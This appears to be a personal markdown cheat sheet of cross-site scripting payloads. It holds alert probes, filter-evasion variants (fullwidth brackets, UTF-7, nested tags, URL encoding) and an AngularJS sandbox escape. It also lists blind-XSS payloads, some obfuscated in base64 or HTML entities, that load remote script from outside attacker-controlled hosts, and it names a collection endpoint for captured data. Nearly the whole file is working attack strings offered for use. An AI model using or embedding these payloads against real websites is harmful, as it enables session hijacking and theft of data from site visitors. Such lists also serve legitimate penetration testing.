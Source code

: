 tags here:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

<img src=/ onerror="alert(1)"></img>

angular 1.* payload
{{constructor.constructor('alert(1)')()}}


<svg onload=alert(9)//

<a href="javascript:window.print()">Print Screen</a>

## hans' payload, much beter
" onfocus="alert('gotcha') autofocus=true a="

＜＞

prompt('d')

%22%3e%3cscript%3ealert(1)%3c%2fscript%3e

https://security.stackexchange.com/questions/130284/xss-payload-without-using-and

" onmouseover="alert('GOTCHA')"

＜svg onload=alert(`)//

＜img src=/ onerror="alert(1)">/img＞

＜scr＜script＞ipt＞document.write("Successful XSS")＜/scr＜script＞ipt＞

<img src=/ onerror="alert(1)"></img>

＜svg onload=alert(1)//

\";alert('XSS');//

+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4-

+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-

"""><SCRIPT>alert()

https://silentbreaksecurity.com/wp-content/uploads/Asset-10asbs.png

<script a=">" src="https://silentbreaksecurity.com/wp-content/uploads/Asset-10asbs.png"></script>

var d=document;var l=d.createElement('script');l.src = 'https://badbird.sbsxss.xyz';d.getElementsByTagName('html')[0].appendChild(l);

" onfocus=alert(1) autofocus> 

# xss hunter
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmFkYmlyZC5zYnN4c3MueHl6Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; onerror=eval(atob(this.id))>

<script>$.getScript("//badbird.sbsxss.xyz")</script>

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//badbird.sbsxss.xyz");a.send();</script>

"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;badbird.sbsxss.xyz&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">

"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;badbird.sbsxss.xyz&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;"//

"><video><source onerror=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmFkYmlyZC5zYnN4c3MueHl6Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://badbird.sbsxss.xyz\';document.body.appendChild(a)')

hans blind xss payloads
```
javascript:eval('var a=document.createElement(\'script\');a.src=\'https://pt0404.000webhostapp.com/no.js'';document.body.appendChild(a)')

var d=document;var l=d.createElement('script');l.src = 'https://pt0404.000webhostapp.com/no.js';d.getElementsByTagName('html')[0].appendChild(l);
```

http://rabbit.eng.miami.edu/info/htmlchars.html

xss hunter alternative 
- https://pt0404.000webhostapp.com/1.js
- https://pt0404.000webhostapp.com/view_log